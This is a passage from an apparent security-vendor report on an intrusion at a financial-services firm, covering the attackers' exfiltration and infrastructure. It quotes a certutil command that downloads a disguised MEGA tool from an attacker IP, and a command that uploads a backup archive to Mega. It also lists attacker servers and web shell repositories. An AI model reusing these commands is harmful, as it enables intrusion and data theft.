 ```
"C:\Windows\system32\cmd.exe" /c certutil -urlcache -split -f \ 
ht""""tp://206.237.3.150:443/megacmd.exe \ 
C:\users\public\downloads\ms_edge.exe
```

Shortly after, we observed this utility being executed with an argument to a configuration file (called `tmp`) and a compressed file stored with a backup extension (`.bak`) being used in conjunction with Mega.

```
C:\users\public\downloads\ms_edge.exe  --config \ 
C:\users\public\downloads\tmp copy \ 
REDACTED_FILENAME.bak mega_temp:
```

### Infrastructure

Throughout this investigation, the threat group used several servers to host their payloads or forward network traffic. The Elastic Security Labs team discovered two web servers with open directories hosting files publicly reachable on: 

* `206.237.3[.]150`
* `206.237.0[.]49` 

![Open directory at 206.237.3[.]150](/assets/images/unmasking-financial-services-intrusion-ref0657/image3.png "Open directory at 206.237.3[.]150")


In addition, our team observed [Supershell](https://github.com/tdragon6/Supershell/tree/main) panel, a Chinese-based C2 platform running on `206.237.[0].49:8888`.

![Supershell Panel on 206.237.0[.]49](/assets/images/unmasking-financial-services-intrusion-ref0657/image1.png "Supershell Panel on 206.237.0[.]49")


We validated an earlier finding in the previous section when we found a configuration file (referred to as `tmp` in the Exfiltration section) used for automation with the Mega platform containing credentials used by the adversary. As well, there was a variety of web shell files and scripts originating from the following public repositories:

* [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.md#abusing-ssrf-in-aws-ec2-environment](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.md#abusing-ssrf-in-aws-ec2-environment)
* [https://github.com/tutorial0/WebShell/blob/master/Aspx/ASPXspy.aspx](https://github.com/tutorial0/WebShell/blob/master/Aspx/ASPXspy.aspx)
* [https://github.com/L-codes/Neo-reGeorg/blob/master/templates/tunnel.ashx](https://github.com/L-codes/Neo-reGeorg/blob/master/templates/tunnel.ashx)

Furthermore, within these directories, we identified a few interesting binaries:

**cloud_init**

One of the files (`cloud_init`) is a Golang ELF binary packed with UPX. After inspection, it was determined that it was compiled from the [NPS repository](https://github.com/ehang-io/nps/tree/master), another intranet proxy server compatible with most common protocols. The threat actor altered the code to encrypt the strings during compilation. The decryption process uses separate byte arrays where the bytes of one array are combined with the bytes of the other array, employing operations such as addition, XOR, or subtraction for the decryption.
